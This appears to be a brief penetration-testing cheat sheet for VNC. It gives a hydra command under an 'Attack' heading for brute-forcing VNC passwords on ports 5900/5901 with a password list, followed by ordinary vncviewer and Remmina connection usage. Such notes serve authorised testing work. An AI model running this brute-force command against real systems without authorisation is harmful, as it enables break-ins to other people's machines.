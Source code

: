 --- ---

<h2>Attack</h2>

- Brute Forcing
```
hydra -s 5900/5901 -P PASSWORD.txt -t 4 IP vnc
```

---

<h2>Connection</h2>

- Connection
```
#VNCviewer
vncviewer IP

#Remmina
GUI
```